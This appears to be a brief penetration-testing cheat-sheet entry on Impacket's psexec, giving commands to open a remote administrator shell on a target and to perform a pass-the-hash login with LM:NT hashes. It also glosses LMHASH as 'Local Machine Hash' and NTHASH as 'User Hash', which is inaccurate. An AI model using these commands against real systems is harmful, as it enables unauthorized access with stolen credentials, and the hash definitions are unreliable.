

psexec
PSEXEC - Used to login as Administrator (Note: May require samba)
If We have admin credentials we can directly open a shell from Impacket kit:
impacket-psexec.py administrator@{TARGET_IP}
or
python3 psexec.py administrator@{TARGET_IP}

We can also do “Pass the Hash” attack with psexec
(No Password Required: Only Hash required)
format:
impacket-psexec administrator@<IP_Address> -hashes LMHASH:NTHASH
LMHASH - Local Machine Hash
NTHASH - User Hash
